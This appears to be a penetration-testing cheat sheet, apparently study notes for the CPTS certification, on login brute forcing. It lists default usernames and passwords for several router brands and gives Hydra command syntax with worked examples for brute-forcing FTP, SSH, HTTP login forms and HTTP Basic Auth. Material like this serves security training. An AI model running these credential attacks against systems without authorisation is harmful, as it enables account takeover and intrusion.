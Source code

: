 ```yaml
---
layout: post
title: "Login Brute Forcing"
date: 2025-04-21
categories: CheatSheets/CPTS
order: 12
---
```


## Default Credentials

**Default Usernames:** Pre-set usernames that are widely known  
**Default Passwords:** Pre-set, easily guessable passwords that come with devices and software

| Device              | Username | Password |
|---------------------|----------|----------|
| Linksys Router      | admin    | admin    |
| Netgear Router      | admin    | password |
| TP-Link Router      | admin    | admin    |
| Cisco Router        | cisco    | cisco    |
| Ubiquiti UniFi AP   | ubnt     | ubnt     |

---

## Brute-Forcing Tools

### Hydra
- Fast network login cracker  
- Supports numerous protocols  
- Uses parallel connections for speed  
- Flexible and adaptable  
- Relatively easy to use  

```bash
hydra [-l LOGIN|-L FILE] [-p PASS|-P FILE] [-C FILE] -m MODULE [service://server[:PORT][/OPT]]
```

| Hydra Service | Service/Protocol       | Description                                                                 | Example Command |
|---------------|------------------------|-----------------------------------------------------------------------------|-----------------|
| ftp           | File Transfer Protocol | Used to brute-force login credentials for FTP services, commonly used to transfer files over a network. | `hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100` |
| ssh           | Secure Shell (SSH)     | Targets SSH services to brute-force credentials, commonly used for secure remote login to systems. | `hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100` |
| http-get/post | HTTP Web Services      | Used to brute-force login credentials for HTTP web login forms using either GET or POST requests. | `hydra -l admin -P /path/to/password_list.txt -f -s <port> <target IP> http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"` |
| http-get (Basic Auth) | HTTP Basic Authentication | Used to brute-force credentials on services protected with HTTP Basic Auth (not web forms). | `hydra -L users.txt -P passwords.txt -s <port> <target IP> http-get /` |

---

